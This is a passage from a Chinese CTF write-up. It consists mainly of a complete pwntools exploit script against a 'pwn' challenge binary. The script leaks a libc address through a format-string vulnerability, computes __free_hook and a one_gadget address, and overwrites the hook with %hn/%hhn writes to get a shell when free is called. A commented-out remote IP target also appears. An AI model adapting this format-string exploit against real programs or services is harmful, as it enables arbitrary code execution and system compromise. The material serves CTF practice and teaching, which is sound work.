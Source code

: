 [![](assets/1701612457-b10ea385030be0b37ab285a221efbb80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215712-da525b62-11cd-1.png)  
这里再执行完上面最后一步就可以修改完了，然后执行 free 函数就直接 getshell 了。

## exp (本地)

```plain
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
context(os='linux',arch='amd64',log_level='debug')

p=process('./pwn')
#p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
#gdb.attach(p)
libcbase = int(r(12),16) - 0x5f1168
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('(og//0x10000)&0xffff',(og//0x10000)&0xffff)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
leak('(free_hook//0x10000)&0xff',(free_hook//0x10000)&0xff)
free1 = free_hook//0x10000000000
leak('free1',free1)
#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
gdb.attach(p)
num=input()#num = 72
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
#gdb.attach(p)
```